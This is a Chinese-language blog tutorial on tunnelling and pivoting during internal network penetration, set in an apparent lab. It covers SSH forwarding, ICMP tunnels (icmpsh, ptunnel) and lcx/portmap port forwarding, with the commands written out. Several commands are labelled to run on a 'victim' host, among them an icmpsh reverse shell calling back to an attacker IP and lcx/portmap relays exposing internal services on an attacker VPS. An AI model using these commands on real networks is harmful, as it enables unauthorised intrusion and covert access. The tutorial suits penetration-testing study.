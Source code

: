 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-代理技术.jpg
catalog: true
tags:
    - 渗透
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![BC9NB4.png](https://s1.ax1x.com/2020/10/21/BC9NB4.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![BC9cuD.png](https://s1.ax1x.com/2020/10/21/BC9cuD.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![BCC8IA.png](https://s1.ax1x.com/2020/10/21/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![BCPky8.png](https://s1.ax1x.com/2020/10/21/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![BCPFQf.png](https://s1.ax1x.com/2020/10/21/BCPFQf.png)



![BCPiSP.png](https://s1.ax1x.com/2020/10/21/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![BpSU2D.png](https://s1.ax1x.com/2020/10/20/BpSU2D.png)



流量情况

![BpSN8O.png](https://s1.ax1x.com/2020/10/20/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![BCL1Re.png](https://s1.ax1x.com/2020/10/21/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![BCTpsx.png](https://s1.ax1x.com/2020/10/21/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![BCbeSJ.png](https://s1.ax1x.com/2020/10/21/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![BCLYqI.md.png](https://s1.ax1x.com/2020/10/21/BCLYqI.md.png)



访问本地的6000 端口

![BCL3xH.png](https://s1.ax1x.com/2020/10/21/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![BpWNbd.png](https://s1.ax1x.com/2020/10/20/BpWNbd.png)



仅本地可以访问

![BpWaVA.png](https://s1.ax1x.com/2020/10/20/BpWaVA.png)



公网ip 无法访问

![BpWtDH.png](https://s1.ax1x.com/2020/10/20/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![BpWYKe.md.png](https://s1.ax1x.com/2020/10/20/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![BpfPqH.png](https://s1.ax1x.com/2020/10/20/BpfPqH.png)



![BpWGvD.png](https://s1.ax1x.com/2020/10/20/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

[![B9RC28.png](https://s1.ax1x.com/2020/10/21/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![B9sgPO.png](https://s1.ax1x.com/2020/10/21/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![B9sDq1.png](https://s1.ax1x.com/2020/10/21/B9sDq1.png)



受害内网服务

![B9sya6.png](https://s1.ax1x.com/2020/10/21/B9sya6.png)



被映射到自己vps 8008端口

![B9ssVx.png](https://s1.ax1x.com/2020/10/21/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![BPPt5d.md.png](https://s1.ax1x.com/2020/10/21/BPPt5d.md.png)

